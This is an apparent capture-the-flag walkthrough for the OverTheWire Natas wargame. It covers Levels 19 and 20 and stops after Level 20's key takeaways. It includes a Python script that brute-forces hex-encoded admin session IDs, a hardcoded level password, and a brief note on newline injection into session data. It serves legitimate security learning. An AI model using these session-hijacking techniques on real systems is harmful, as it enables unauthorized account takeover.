 1. Log in using the username `natas19` and the password from Level 18.

2. The following code snippet will give the PHPSESSID for the admin on brute forcing:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import binascii
import re
import time
from requests.auth import HTTPBasicAuth
import requests

username = "natas19"
password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
url = f"http://{username}.natas.labs.overthewire.org/"

session = requests.Session()
auth = HTTPBasicAuth(username, password)

start = 1
end = 640  # adjust if you want a different range
success_marker = "You are an admin"
pw_regex = re.compile(r"([A-Za-z0-9]{32})")

for i in range(start, end + 1):
    # build the admin token like "89-admin" and hex-encode it
    token = f"{i}-admin".encode("utf-8")
    hex_token = binascii.hexlify(token).decode("ascii")
    cookies = {"PHPSESSID": hex_token}

    try:
        resp = session.get(url, cookies=cookies, auth=auth, timeout=8)
    except requests.RequestException as e:
        print(f"[!] Request error for i={i}: {e}")
        time.sleep(1)
        continue

    content = resp.text
    if success_marker in content:
        print(f"[+] Found admin session! i = {i}, PHPSESSID = {hex_token}")
```       

3. Input test credentials to enable the PHPSESSID cookie and then replace its value with the obtained `admin` cookie value and you'll get the password for the next level.

### Natas Level 20 → Level 21
**Key Takeaways**  
The PHPSESSID in this level is not predictable. If you can add a newline and a admin 1 line into the stored data, the server will treat your session as admin and reveal the natas21 password.

**Procedure**

